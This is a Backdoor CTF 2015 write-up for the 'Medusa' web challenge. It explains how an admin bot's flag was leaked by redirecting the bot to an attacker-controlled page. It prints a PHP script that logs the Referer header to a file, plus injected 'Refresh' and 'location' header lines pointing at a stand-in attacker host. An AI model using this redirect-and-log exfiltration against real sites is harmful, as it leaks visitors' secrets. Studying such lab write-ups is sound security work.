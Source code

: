 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - Medusa Writeup"
date: 2015-04-03 01:06:09 +0430
comments: false
categories: ctf backdoor web
---
```


**Backdoor2015 Medusa Writeup**  
**Point = 100**  
**Category = Web**  
**Description : **  

> The html page you create will be visited by the backdoor admin with the flag.
>You can enter a fake flag to simulate the challenge.


>Get the flag at http://hack.bckdr.in/MEDUSA/

After We open the link that is provided in description we are welcomed with a form.you can send message with html code and after that admin will visit your page with the flag.

<!-- more -->

![alt text](http://up.ashiyane.org/images/nxcfynwxymxjqi2v4u7.png "Medusa Form")

Backdoor CTF admin add a hint and mention that they sent flag as post request

this is sample request that admin sent :

http://hack.bckdr.in/MEDUSA/view.php?id=ID&flag=FLAG

when you sent the message Medusa website create id for you.
you can visit your message with this id ( same as admin :D )

![alt text](http://up.ashiyane.org/images/wu0fm2e5n6shme48fj58.png "Message Read")

we test different method to get the flag value from post request with PHP or JavaScript in our page but we see error or blank page.

>after some investigation our team found answer !!!

we can redirect admin to another page and get the flag

but if they sent request as post cant log the value in second page.so thinking to Referer attribute in the header.

write some code to get and save the Referer in the text file when admin redirect to our PHP page :
Server.php

```
<?php
$ref = $_SERVER['HTTP_REFERER'];
file_put_contents("flag.txt",$ref);
?>
```

 > and sent this code as our page to Medusa form :
```
---
location: http://Attackerwebsite.com/server.php
---
Can you get the **flag**?
```
but after admin visit the link flag.txt is empty !!!

no Referer sent to PHP page...

we test several time ( for this challenge or local tests ) and same result,no Referer save in flag.txt

after some research we found out with this kind of header redirection we cant get Referer and we should change that.

```
---
Refresh: 0; url=http://Attackerwebsite.com/server.php
---
Can you get the **flag**?

```

and guess what?
> we have Referer Link in flag.txt :D



[Referer Link With Flag!](http://hack.bckdr.in/MEDUSA/view.php?flag=[redacted]&id=d61d051c6e741595491c)

and now you have 100 point :D

WriteUp By Fr0nk

